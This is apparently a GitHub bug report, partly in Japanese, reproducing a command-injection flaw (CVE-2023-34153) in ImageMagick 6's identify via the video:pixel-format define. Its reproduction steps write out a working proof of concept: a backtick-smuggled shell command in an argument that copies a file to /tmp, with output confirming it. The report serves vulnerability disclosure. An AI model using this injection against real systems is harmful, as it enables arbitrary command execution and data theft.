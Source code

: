 6以前のバージョンで確認する場合のメモ

### ImageMagick version
```
convert -version                                                                                
Version: ImageMagick 6.9.11-60 Q16 x86_64 2021-01-25 https://imagemagick.org
```
7以降はmagick <option>を使用、6以前はconvert,dentifyなどのコマンドを使う。（すでにある7.0のイシューと違うのはそこだけ）。
  
ImageMagick 7.0 use command magick <option> insted of  6.0 convert,dentify,etc.


### Operating system
Linux


### Steps to Reproduce
Given a normal video file, namely test.mov, the following demonstrates how command injection happens.

  
```
/data/home/test/exp
➜ echo 'deadbeef' > test.txt

/data/home/test/exp
➜ dentify -define video:pixel-format="rgba `cat test.txt > /tmp/leak.txt`" test.mov >info.log 

/data/home/test/exp
➜ tail info.log
test.mov[20] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.030u 0:00.028
test.mov[21] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.030u 0:00.026
test.mov[22] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.030u 0:00.024
test.mov[23] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.020u 0:00.022
test.mov[24] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.020u 0:00.021
test.mov[25] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.020u 0:00.018
test.mov[26] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.020u 0:00.017
test.mov[27] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.020u 0:00.014
test.mov[28] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.020u 0:00.013
test.mov[29] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 33.0075MiB 0.020u 0:00.011

/data/home/test/exp
➜ cat /tmp/leak.txt
deadbeef
```

### Appendix
https://github.com/advisories/GHSA-7c5r-cghm-f2jx

https://github.com/ImageMagick/ImageMagick/issues/6338

https://nvd.nist.gov/vuln/detail/CVE-2023-34153

https://imagemagick.org/script/identify.php
